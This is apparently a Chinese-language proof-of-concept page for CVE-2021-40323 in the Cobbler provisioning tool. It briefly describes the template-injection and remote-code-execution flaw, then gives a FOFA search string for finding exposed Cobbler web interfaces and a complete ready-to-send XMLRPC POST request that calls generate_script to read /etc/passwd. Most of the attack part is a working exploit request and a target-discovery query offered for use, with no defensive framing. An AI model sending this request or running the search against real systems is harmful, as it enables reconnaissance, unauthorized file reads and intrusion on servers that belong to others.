 ## Cobbler存在远程命令执行漏洞(CVE-2021-40323)

Cobbler是一款专注于自动化Linux系统安装和配置管理的工具，可帮助管理员快速部署服务器并确保配置一致性，支持多种操作系统和提供多项功能强大的特性，如Kickstart配置、PXE引导、DHCP管理等，提升系统管理效率和可靠性。

该产品在3.3.0之前版本存在远程代码执行漏洞，该漏洞源于外部输入数据构造代码段的过程中，网络系统或产品未能正确过滤其中的特殊元素，攻击者可利用该漏洞通过特制的XMLRPC方法记录日志文件以进行模板注入，从而导致日志中毒和远程代码执行。

## fofa
```
"Cobbler Web Interface"
```


## poc
```
POST /cobbler_api HTTP/1.1
Host: xxx
Content-Length: 0
Content-Type: text/xml
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

<?xml version='1.0'?>
        <methodCall>
          <methodName>generate_script</methodName>
          <params>
            <param>
              <value>
                <string>centos6-x86_64</string>
              </value>
            </param>
            <param>
              <value>
                <string></string>
              </value>
            </param>
            <param>
              <value>
                <string>/etc/passwd</string>
              </value>
            </param>
          </params>
        </methodCall>
```

![image](https://github.com/wy876/POC/assets/139549762/bbe19773-779d-4591-b957-28cfc9bf8bce)
